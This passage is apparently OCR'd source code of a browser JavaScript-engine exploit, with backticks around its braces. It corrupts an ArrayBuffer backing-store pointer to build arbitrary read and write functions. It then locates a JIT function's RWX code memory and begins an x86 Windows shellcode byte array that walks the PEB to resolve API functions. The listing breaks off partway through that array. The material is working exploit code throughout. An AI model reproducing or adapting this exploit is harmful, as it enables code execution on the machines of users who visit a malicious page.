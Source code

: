```
        log("[+] backing store idx: " + backing_store_idx +
            ", in " + (backing_store_in_hign_mem ? "high" : "low") + " place.");

    if (OptObj_idx == -1) `{`
        log("[-] Can not find Opt Obj !");
        return;
    `}` else
        log("[+] OptObj idx: " + OptObj_idx +
            ", in " + (OptObj_idx_in_hign_mem ? "high" : "low") + " place.");

    var backing_store = (backing_store_in_hign_mem ?
        f2u(big_arr[backing_store_idx])[1] :
        f2u(big_arr[backing_store_idx])[0]);
    log("[+] Origin backing store: " + hex(backing_store));

    var dataNearBS = (!backing_store_in_hign_mem ?
        f2u(big_arr[backing_store_idx])[1] :
        f2u(big_arr[backing_store_idx])[0]);

    function read(addr) `{`
        if (backing_store_in_hign_mem)
            big_arr[backing_store_idx] = u2f(addr, dataNearBS);
        else
            big_arr[backing_store_idx] = u2f(dataNearBS, addr);
        return data_view.getInt32(0, true);
    `}`

    function write(addr, msg) `{`
        if (backing_store_in_hign_mem)
            big_arr[backing_store_idx] = u2f(addr, dataNearBS);
        else
            big_arr[backing_store_idx] = u2f(dataNearBS, addr);
        data_view.setInt32(0, msg, true);
    `}`

    var OptJSFuncAddr = (OptObj_idx_in_hign_mem ?
        f2u(big_arr[OptObj_idx])[1] :
        f2u(big_arr[OptObj_idx])[0]) - 1;
    log("[+] OptJSFuncAddr: " + hex(OptJSFuncAddr));

    var OptJSFuncCodeAddr = read(OptJSFuncAddr + 0x18) - 1;
    log("[+] OptJSFuncCodeAddr: " + hex(OptJSFuncCodeAddr));

    var RWX_Mem_Addr = OptJSFuncCodeAddr + 0x40;
    log("[+] RWX Mem Addr: " + hex(RWX_Mem_Addr));

    var shellcode = new Uint8Array(
           [0x89, 0xe5, 0x83, 0xec, 0x20, 0x31, 0xdb, 0x64, 0x8b, 0x5b, 0x30, 0x8b, 0x5b, 0x0c, 0x8b, 0x5b,
            0x1c, 0x8b, 0x1b, 0x8b, 0x1b, 0x8b, 0x43, 0x08, 0x89, 0x45, 0xfc, 0x8b, 0x58, 0x3c, 0x01, 0xc3,
            0x8b, 0x5b, 0x78, 0x01, 0xc3, 0x8b, 0x7b, 0x20, 0x01, 0xc7, 0x89, 0x7d, 0xf8, 0x8b, 0x4b, 0x24,
            0x01, 0xc1, 0x89, 0x4d, 0xf4, 0x8b, 0x53, 0x1c, 0x01, 0xc2, 0x89, 0x55, 0xf0, 0x8b, 0x53, 0x14,
            0x89, 0x55, 0xec, 0xeb, 0x32, 0x31, 0xc0, 0x8b, 0x55, 0xec, 0x8b, 0x7d, 0xf8, 0x8b, 0x75, 0x18,
            0x31, 0xc9, 0xfc, 0x8b, 0x3c, 0x87, 0x03, 0x7d, 0xfc, 0x66, 0x83, 0xc1, 0x08, 0xf3, 0xa6, 0x74,
            0x05, 0x40, 0x39, 0xd0, 0x72, 0xe4, 0x8b, 0x4d, 0xf4, 0x8b, 0x55, 0xf0, 0x66, 0x8b, 0x04, 0x41,
            0x8b, 0x04, 0x82, 0x03, 0x45, 0xfc, 0xc3, 0xba, 0x78, 0x78, 0x65, 0x63, 0xc1, 0xea, 0x08, 0x52,
```
